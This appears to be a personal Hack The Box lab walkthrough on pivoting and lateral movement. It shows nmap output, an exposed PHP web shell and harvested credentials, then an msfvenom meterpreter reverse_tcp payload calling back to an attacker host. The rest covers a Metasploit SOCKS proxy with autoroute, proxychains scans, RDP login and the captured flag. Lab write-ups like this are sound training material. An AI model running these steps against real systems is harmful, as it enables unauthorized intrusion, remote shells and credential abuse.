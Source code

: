 Target IP
```go
10.129.229.129
```

## NMAP COMMAND
```go
nmap -sV -sC -A 10.129.229.129
```

Open ports
```go
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
```

```go
80/tcp open  http    Apache httpd 2.4.41
```

## Investigate NMAP output

NMAP output reveals the http-title to be `p0wny@shell`? 
```go
Nmap scan report for 10.129.229.129
Host is up (0.020s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 71:08:b0:c4:f3:ca:97:57:64:97:70:f9:fe:c5:0c:7b (RSA)
|   256 45:c3:b5:14:63:99:3d:9e:b3:22:51:e5:97:76:e1:50 (ECDSA)
|_  256 2e:c2:41:66:46:ef:b6:81:95:d5:aa:35:23:94:55:38 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: p0wny@shell:~#
```

- Found on [GitHub](https://github.com/flozz/p0wny-shell), it's revealed to be a PHP shell.
- Web browse shows available via the browser
- Enumerating the directories, there are two user directories: `administrator` and `webadmin`, though only `webadmin` is available to us

>[!success] Enumerating the directories there is a note in `/home/webadmin/for-admin-eyes-only` stating the credentials needed to access server01 and other servers in the subnet

![[Pasted image 20241229165238.png]]

==Credential discovery #1==
^first-creds
Creds found for `server01` 
username ^325593
```
mlefay
```

password
```
Plain Human work!
```

#### p0wnyshell default creds found in script
![[p0wnyshell_creds.png]]

==Credential Discovery #2==
^second-creds
username
```go
p0wny
```
password
```go
shell
```

#### private_key found
Found the private key and it is readable!
![[HTB Field Manual/5-Lateral Movement/Skill Assessment/screenshots/private_key.png]]

## Pivot Host Compromise

- Copy the contents of the private key into `id_rsa`
- SSH into the web server with the private key and the `webadmin` username

SSH into the webserver
```go
ssh -i ~/.ssh/target_pvt_key webadmin@10.129.229.129
```

Ping sweep 
```go
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

IP of second host found 
```
172.16.5.35
```
![[host_discovery2.png]]

Generate msfvenom payload
```go
bundle exec msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.15.37 -f elf -o backupjob LPORT=8080
```

Copy backupjob to webadmin server
```go
scp -i ~/.ssh/target_pvt_key backupjob webadmin@10.129.229.129:/tmp
```

Configure the metasploit reverse_tcp payload
```go
use exploit/multi/handler
```

```go
set lhost 0.0.0.0
```

```go
set lport 8080
```

```go
set payload linux/x64/meterpreter/reverse_tcp
```

```go
run
```

Execute the `backupjob` payload on the pivot host, the meterpreter session will be established on the attack host.
![[initial_meterpreter_session.png]]

REMINDER
>[! Important] Second Host IP is 172.16.5.35

Facts:
- There is no route from my attack host to this internal subnet
- The pivot host has access to both the 172.16.5.0/23 range and the the 10.0.0.0/8 range
- I need to establish a local proxy on the attack host so that I can reach the 172.16.5.35 machine

### Configure MSF's SOCKS Proxy

>[! Warning] Before proceeding, ensure the line `socks4  127.0.0.1 9050` is present in `/etc/proxychains.conf`

Background the current mfs6 sessions with the `bg` command, then execute the following:

```go
use auxiliary/server/socks_proxy
```

```go
set SRVPORT 9050
```

```go
set SRVHOST 0.0.0.0
```

```go
set version 4a
```

```go
run
```

The msf6 socks_proxy module must route all traffic via the meterpreter session. Use the `post/multi/manage/autoroute` module to add routes for `172.16.5.0`

### Adding routes via AutoRoute Metasploit module

```go
use post/multi/manage/autoroute
```

```go
set SESSION 1
```

```go
set SUBNET 172.16.5.0
```

```go
run
```

After executing the run command, you should see output same as the below:
```go
msf6 post(multi/manage/autoroute) > run

[*] Running module against inlanefreight.local
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.0.0/255.255.0.0 from host's routing table.
[*] Post module execution completed
```

If doing from the Meterpreter session...
```go
run autoroute -s 172.16.5.0/23
```

Scanning internal target 172.16.5.35 via proxychains
```go
proxychains nmap 172.16.5.35 -p3389 -sT -v -Pn
```

Output:
```go
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/aarch64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-30 12:55 EST
Initiating Parallel DNS resolution of 1 host. at 12:55
Completed Parallel DNS resolution of 1 host. at 12:55, 0.03s elapsed
Initiating Connect Scan at 12:55
Scanning 172.16.5.35 [1 port]
Completed Connect Scan at 12:56, 2.00s elapsed (1 total ports)
Nmap scan report for 172.16.5.35
Host is up.

PORT     STATE    SERVICE
3389/tcp filtered ms-wbt-server

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 2.05 seconds
```

This shows port 3389 is filtered. Attempt a remote session to the Windows target via xfreerdp

RDP into Windows target using the creds from [[#^325593 | first creds found]] 
```go
proxychains xfreerdp /v:172.16.5.35 /u:mlefay /p:Plain Human work!
```

Flag Acquired
```go
S1ngl3-Piv07-3@sy-Day
```
![[HTB Field Manual/5-Lateral Movement/Skill Assessment/screenshots/flag.png]]


